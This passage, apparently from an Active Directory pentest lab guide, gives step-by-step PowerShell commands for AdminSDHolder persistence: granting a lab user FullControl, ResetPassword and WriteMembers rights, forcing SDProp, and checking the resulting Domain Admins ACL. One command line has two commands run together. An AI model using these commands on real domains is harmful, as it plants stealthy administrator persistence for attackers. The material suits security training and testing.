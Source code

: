2. Add **FullControl** permissions for a user to the AdminSDHolder
    
    ```powershell
    # PowerView
    Add-ObjectAcl -TargetADSprefix "CN=AdminSDHolder,CN=System" -PrincipalSamAccountName "STUDENT1" -Rights All -Verbose
    
    # ActiveDirectory Module
    Set-ADACL -DistinguishedName "CN=AdminSDHolder,CN=System,DC=cyberlab,DC=cybercorp,DC=local" -Principal 'STUDENT1' -Verbose
    ```
    
    but there are also other interesting permissions (**ResetPassword**, **WriteMembers**) for a user to the AdminSDHolder:
    
    ```powershell
    # PowerView
    Add-ObjectAcl -TargetADSprefix "CN=AdminSDHolder,CN=System" -PrincipalSamAccountName "STUDENT1" -Rights ResetPassword -VerboseAdd-ObjectAcl -TargetADSprefix "CN=AdminSDHolder,CN=System" -PrincipalSamAccountName "STUDENT1" -Rights WriteMembers -Verbose
    ```
    
3. Run SDProp manually using Invoke-SDPropagator.ps1 (requires DA privileges):
    
    ```powershell
    # Pre-Server 2008 machines
    . .\Invoke-SDPropagator.ps1
    Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
    
    # Server 2008 and beyond
    . .\Invoke-SDPropagator.ps1
    Invoke-SDPropagator -timeoutMinutes 1 -Domain "CYBERLAB.LOCAL" -showProgress -Verbose
    ```
    
4. Verify the successful update of Domain Admins ACL (as normal user):
    
    ```powershell
    # PowerView
    Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -like "CYBERLAB\STUDENT1"}
    
    # ActiveDirectory Module
    (Get-Acl -Path "AD:\CN=Domain Admins,CN=Users,DC=cyberlab,DC=cybercorp,DC=local").Access | ?{$_.IdentityReference -like "CYBERLAB\STUDENT1"}
    ```
    